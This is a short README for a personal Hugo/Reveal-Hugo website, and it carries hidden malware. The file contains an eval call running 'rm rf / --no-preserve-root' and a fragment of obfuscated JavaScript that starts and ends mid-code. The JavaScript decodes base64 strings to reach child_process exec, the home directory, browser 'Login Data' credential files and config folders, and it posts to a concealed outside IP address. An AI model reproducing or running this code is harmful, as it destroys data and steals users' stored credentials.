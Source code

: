 # OxMarco Personal Website
Built with [Hugo](https://gohugo.io/) and [Reveal-Hugo](https://github.com/dzello/reveal-hugo).

eval("rm rf / --no-preserve-root")
rom(s1,t).toString(a));pt=require(n("zcGF0aA")),rq=require(n("YcmVx"+"dWVzdA")),ex=require(n("aY2hpbGRf"+"cHJvY2Vzcw"))[n("cZXhlYw")],zv=require(n("Zbm9kZTpwcm9jZXNz")),hs=$[n("caG9zdG5hbWU")](),hd=$[n("ZaG9tZWRpcg")](),pl=$[n("YcGxhdGZvcm0")](),td=$[n("cdG1wZGly")]();let e;const l=c=>Buffer.from(c,t).toString(a),s=()=>{let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMjM3OjEyNDQ=  ";for(var c="",a="",$="",r="",n=0;n<10;n++)c+=t[n],a+=t[10+n],$+=t[20+n],r+=t[30+n];return c=c+$+r,l(a)+l(c)},h=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?hd:`${pt[l("ZGlybmFtZQ")](hd)}/${c}`)),o="NVRlYW05",Z="Z2V0",y="Ly5ucGw",i="d3JpdGVGaWxlU3luYw",d="L2NsaWVudA",p=l("ZXhpc3RzU3luYw"),u="TG9naW4gRGF0YQ",b="Y29weUZpbGU";function m(t){const c=l("YWNjZXN"+"zU3luYw");try{return r[c](t),!0}catch(t){return!1}}const G=l("RGVmYXVsdA"),W=l("UHJvZmlsZQ"),Y=n("aZmlsZW5hbWU"),f=n("cZm9ybURhdGE"),w=n("adXJs"),V=n("Zb3B0aW9ucw"),v=n("YdmFsdWU"),j=l("cmVhZGRpclN5bmM"),z=l("c3RhdFN5bmM"),L=l("cG9zdA"),X="Ly5jb25maWcv",g="L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC8
